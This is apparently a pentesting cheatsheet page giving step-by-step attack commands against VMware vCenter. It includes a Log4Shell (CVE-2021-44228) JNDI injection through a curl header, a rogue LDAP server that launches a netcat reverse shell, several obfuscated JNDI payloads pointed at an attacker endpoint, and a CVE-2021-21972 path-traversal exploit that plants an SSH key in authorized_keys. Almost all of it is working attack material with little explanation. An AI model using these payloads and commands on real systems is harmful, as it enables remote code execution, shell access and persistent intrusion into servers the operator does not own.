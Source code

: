 ```yaml
---
layout: post
title: TA0008 Lateral Movement - T1210 RCE 2021 - Log4J VCenter
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-14
permalink: /:categories/:title/
---
```


**Mitre Att&ck Entreprise**: 
* [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)
* [T1210  - Exploitation of Remote Services](https://attack.mitre.org/techniques/T1210/)

**Menu**
<!-- vscode-markdown-toc -->
* 1. [CVE-2021-44228 - VCenter](#CVE-2021-44228-VCenter)
* 2. [CVE-2021-21972 - VCenter](#CVE-2021-21972-VCenter)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='CVE-2021-44228-VCenter'></a>CVE-2021-44228 - VCenter

```
# install
git clone https://github.com/veracode-research/rogue-jndi.git
apt install default-jdk
apt install java-common
apt install java-package

# check if Vcenter version is vulnerable
curl -ski https://1.2.3.4/ui/login | grep Location

# tmux windows 0 splitting
Ctrl-b %
Ctrl-b ->
Ctrl-b "

## cmds to run consequently in tmux windows 1, 2 and 3 

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

# HOOK STEP 2: run a rogue LDAP server that hook VCenter, executing netcat back to us 
sudo java -jar target/RogueJndi-1.1.jar --command "nc -e /bin/bash 1.1.1.1 4242" --hostname "1.1.1.1"

# CHECK: 1/ the LDAP, and 2/ the netcat, hooks come back
sudo tcpdump -ni eth0 host 1.2.3.4

# tmux windows 1 splitting
Ctrl-b c
Ctrl-b %
Ctrl-b ->
Ctrl-b "

# REVERSE SHELL: 
nc -lvnp 4242
```

##  1. <a name='CVE-2021-44228-VCenter'></a>CVE-2021-44228 - VCenter

```
# install

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${env:ENV_NAME:-j}ndi\${env:ENV_NAME:-:}\${env:ENV_NAME:-l}dap\${env:ENV_NAME:-:}//1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${::-j}\${::-n}\${::-d}\${::-i}:\${::-l}\${::-d}\${::-a}\${::-p}://1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="


curl --insecure  -vv -H "X-Forwarded-For: \${\${lower:j}ndi:\${lower:l}\${lower:d}a\${lower:p}://1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="


${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```
##  2. <a name='CVE-2021-21972-VCenter'></a>CVE-2021-21972 - VCenter
```
sudo python3 CVE-2021-21972.py -t 1.2.3.3 -f /root/.ssh/id_rsa.pub -p /home/vsphere-ui/.ssh/authorized_keys -o unix
git clone https://github.com/ptoomey3/evilarc.git
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p '/home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
cd ../CVE-2021-21972/
sudo python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.4
```